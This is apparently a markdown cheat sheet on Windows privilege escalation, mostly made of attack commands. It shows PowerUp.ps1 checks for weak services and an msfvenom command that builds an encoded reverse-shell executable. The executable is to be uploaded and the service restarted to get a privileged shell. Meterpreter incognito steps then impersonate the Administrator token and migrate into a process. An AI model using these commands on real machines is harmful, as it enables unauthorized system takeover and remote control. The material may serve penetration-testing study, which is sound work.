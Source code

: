 # Windows Privilege Escalation

## PowerUp.ps1
- Dot source the script and launch checks
```powershell
. .\PowerUp.ps1
Invoke-AllChecks
```

- Look for CanRestart=True and modifiable executable services

- Generate an exe payload with MSFVenom
```
msfvenom -p windows/shell_reverse_tcp LHOST=0.0.0.0 LPORT=4444 -e x86/shikata_ga_nai -f exe -o file.exe
```

- Upload the payload and restart the service to get root shell

## Token Impersonation

### Check current user privileges
```
whoami /priv
```
### Look for abusable privileges
- SeImpersonatePrivilege
- SeAssignPrimaryPrivilege
- SeTcbPrivilege
- SeBackupPrivilege
- SeRestorePrivilege
- SeCreateTokenPrivilege
- SeLoadDriverPrivilege
- SeTakeOwnershipPrivilege
- SeDebugPrivilege

### Meterpreter Incognito module
```sh
load incognito
list_tokens -g
impersonate_token "BUILTIN\Administrator"
# Search for a process running under the same account that has been impersonated
ps
migrate pid
```